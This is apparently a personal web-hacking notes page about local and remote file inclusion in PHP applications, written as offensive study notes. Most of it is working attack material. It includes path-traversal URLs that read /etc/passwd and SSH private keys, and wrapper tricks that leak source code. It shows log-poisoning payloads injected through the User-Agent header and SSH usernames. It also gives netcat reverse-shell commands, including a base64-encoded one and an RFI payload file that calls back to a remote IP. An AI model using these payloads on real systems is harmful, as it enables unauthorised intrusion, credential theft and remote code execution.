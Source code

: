 ```yaml
---
layout: post
title: 'Notes | LFI & RFI'
date: 2022-04-23
permalink: /notes/web/lfi-rfi/
---
```


# [](#header-4)Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
{% highlight plain %}
http://localhost/example.php?file=../../../../../../../etc/passwd
{% endhighlight %}

With the terminal we can check easily:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=/etc/passwd"
{% endhighlight %}
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

### [](#header-4) Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
{% endhighlight %}

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

### [](#header-4) Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
{% highlight plain %}
<?passthru('nc -e /bin/bash <ip> <port>');?>
{% endhighlight %}
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
{% endhighlight %}
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
{% highlight plain %}
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
{% endhighlight %}
- Then we send this "user" to the log:
{% highlight plain %}
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
{% endhighlight %}
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
{% endhighlight %}


# [](#header-4)Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
{% highlight plain %}
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
{% endhighlight %}

Then we change the url with:
{% highlight plain %}
...?index=http://<ip>/revershell.txt
{% endhighlight %}
And then we can execute code.